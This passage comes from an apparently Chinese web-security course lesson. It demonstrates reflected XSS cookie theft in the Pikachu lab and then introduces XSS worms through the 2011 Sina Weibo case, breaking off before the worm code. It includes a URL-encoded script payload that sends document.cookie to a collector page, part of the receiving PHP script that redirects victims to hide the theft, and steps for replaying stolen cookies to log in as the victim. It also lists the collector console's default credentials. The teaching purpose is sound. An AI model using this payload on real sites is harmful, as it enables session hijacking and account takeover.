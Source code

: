 ```php
	}
	header("Location:http://192.168.1.4/pikachu/index.php");//重定向到一个可信的网站，主要起到隐藏作用，避免被发现
	
	?>
```

这个 cookie.php 通过 GET 参数 cookie 来接收数据，那我们向它传递 document.cookie 的值就可以窃取想要的 cookie 了。基于此，我们重新构造 URL。

**注意要做 URL 编码，否则"+"连接符会被吃掉，导致无法窃取 cookie**。

```java
http://localhost/vul/xss/xss_reflected_get.php?message=%3Cscript%3Edocument.location+%3D+%27http%3A%2F%2Flocalhost%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D%27+%2B+document.cookie%3B%3C%2Fscript%3E&submit=submit
```

我们打开 http://localhost/pkxss/pkxss_login.php 上 XSS 后台（第一次使用时按提示点安装，然后用默认帐密登录：admin/123456），可以看到已经成功窃取到Cookie：

<Image alt="图片11.png" src="https://s0.lgstatic.com/i/image/M00/8C/0E/CgqCHl_kTAmAQB_aAAEDK3yLJkY943.png"/>  
图 19：窃取到 Cookie

网上也有很多开源的 XSS 平台用来接收 Cookie，你在GitHub 搜索就可以找到很多，大多数可以直接通过 Docker 快速安装。

<Image alt="Drawing 19.png" src="https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOtaASyQeAAHRnEyplEU737.png"/>  
图 20：各种开源的 XSS 利用平台

获取 Cookie 后，我们就可以本地修改 Cookie 来登录受害者的账号（除非刚好窃取的 Cookie 不包含用户登录信息，比如未登录状态下访问的攻击链接），可以使用 Chrome 插件 EditThisCookie 来设置窃取的 Cookie：

<Image alt="图片13.png" src="https://s0.lgstatic.com/i/image2/M01/04/3F/CgpVE1_r7hmATCQBAAHhyKThdOI750.png"/>  
图 21：EditThisCookie

还有另一款早期业界比较常用的工具，叫"桂林老兵 Cookie 欺骗工具"，以及在《01 \| 武器库：常用的渗透测试工具》中介绍的 Burp Suite，它们均支持修改 Cookie。

#### 蠕虫攻击

前面我介绍了 Samy 蠕虫，但并没有谈到XSS 蠕虫的实现技术。XSS 蠕虫的实现正是得益于Ajax 技术的出现，而后者正是 Web2.0 的标志性技术。

Ajax（Asynchronous JavaScript and XML，异步 JavaScript 和 XML）是指一种**创建交互式网页应用的网页开发技术**。这个概念比较抽象，具体讲就是在我们浏览网页，做一些操作时，可以减少浏览器的一些页面重绘操作，避免出现页面抖动、闪现之类的不适体验。这也正是 Web2.0 带来的改变。

Ajax 中的核心技术就是 XMLHttpRequest，它允许 JavaScript 脚本与服务器进行通信，在不刷新页面的情况下，向服务器发送请求或是接收服务器的响应数据。

下面我以之前影响比较大的新浪微博 XSS 蠕虫攻击事件为例，介绍 Ajax 技术在 XSS 蠕虫中的应用，从攻击代码来详细讲解。

<Image alt="Drawing 21.png" src="https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOu-AUgG8AAMoVNqvtj8470.png"/>  
图 22 ：新浪微博上感染 XSS 蠕虫的用户

2011年 6 月 28 日，新浪微博遭受 XSS 蠕虫的攻击，很多受害者被迫发布带有攻击链接的私信和微博。这些消息都带有一定的诱惑性，其他用户点击后也会此影响。受害者在感染后，都会自动关注一位名为"hellosamy"的微博用户（估计是效仿 Samy 蠕虫），然后向关注受害者的用户发送含有同样链接地址的私信，并发布含攻击链接的微博。得益于这种传播方式，在16 分钟内病毒就感染了33000 个用户。

我们来分析下新浪微博的 XSS 蠕虫代码：
